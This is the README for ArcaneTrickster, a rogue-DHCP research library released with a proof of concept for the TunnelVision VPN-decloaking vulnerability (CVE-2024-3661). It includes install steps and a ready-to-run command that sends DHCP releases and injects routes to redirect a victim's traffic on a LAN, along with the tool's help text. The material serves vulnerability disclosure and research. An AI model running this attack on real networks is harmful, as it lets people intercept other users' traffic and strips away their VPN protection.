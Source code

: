 # ArcaneTrickster
ArcaneTrickster, or "Arcane," is an event-driven research library for low-level networking. It was built as a research tool for TunnelVision (CVE-2024-3661) because we lacked a robust, rogue DHCP server.

Its goals are to:
* Take over as the de-facto DHCP server without relying on race conditions
* Minimize disruption to clients
* Provide flexibility for diverse environments

## Install
```bash
git clone https://github.com/superit23/arcanetrickster.git
python3 -m venv arcaneenv
source ./arcaneenv/bin/activate
python3 -m pip install -r ./arcanetrickster/requirements.txt
```

## Usage
Currently, Arcane requires some amount of programming skill to use. However, we built an easy TunnelVision PoC in the "tunnelvision.py" script that executes the adjacent host decloaking attack.

Here's an example. Imagine we're on the 10.10.10.0/24 subnet, 10.10.10.1 is the authoritative DHCP server, our current IP is 10.10.10.220, and we want to snoop on traffic to 8.8.8.8. We'd listen on the appropriate interface with `-i`, tell the DHCPReleaser to send releases to 10.10.10.1 with `-s`, and inject a route sending traffic for 8.8.8.8 to 10.10.10.220 with `-r`.
```bash
python3 ./tunnelvision.py -i enp0s3 -s 10.10.10.1 -r 8.8.8.8/32:10.10.10.220
```

Help text:
```bash
usage: TunnelVision PoC [-h] -i INTERFACE -s SERVER [-r ROUTE] [-v]

Decloaks VPN users on the LAN

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to listen on
  -s SERVER, --server SERVER
                        Interface to listen on
  -r ROUTE, --route ROUTE
                        Route to add to table. May be listed more than once
  -v, --verbose         Print DEBUG messages to console
```
